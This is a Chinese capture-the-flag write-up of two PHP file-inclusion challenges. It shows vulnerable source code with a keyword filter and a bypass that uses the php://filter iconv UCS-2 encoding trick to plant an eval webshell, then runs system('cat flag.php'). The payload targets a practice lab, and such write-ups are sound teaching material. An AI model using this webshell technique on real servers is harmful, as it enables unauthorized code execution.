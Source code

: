 

#### web116

解题思路：打开题目，下载mp4文件，用foremost分离mp4文件得到一张png图片，打开图片得到题目源码，最后传入?file=flag.php参数得到flag

![image-20211227225002912](image/文件包含/image-20211227225002912.png)



#### web117

```PHP
<?php
highlight_file(__FILE__);
error_reporting(0);
function filter($x){
    if(preg_match('/http|https|utf|zlib|data|input|rot13|base64|string|log|sess/i',$x)){
        die('too young too simple sometimes naive!');
    }
}
$file=$_GET['file'];
$contents=$_POST['contents'];
filter($file);
file_put_contents($file, "<?php die();?>".$contents);
```

解题思路：

1、题目中正则只过滤了base64，rot13，string等一些过滤器的内容，这里我们使用convert.iconv.*过滤器来绕过。

2、最后使用`?<hp pid(e;)>?<?php eval($_GET['a']); ?>`来绕过exit，当我们传入代码，前面的die()被编码后不符合php格式，被当做字符串，而我们传的代码编码后正常了。

PHP处理器：https://blog.csdn.net/qq_44657899/article/details/109300335

```php
GET: ?file=php://filter/convert.iconv.ucs-2be.ucs-2le/resource=cmd.php

POST: contents=?<hp pvela$(G_TE'['cmd)] ;>?
```

最后访问`/cmd.php?cmd=system('cat+flag.php'); `得到flag



参考资料：

https://xz.aliyun.com/t/5535

https://www.freebuf.com/articles/web/182280.html

https://www.debugger.wiki/article/html/1632386160282209
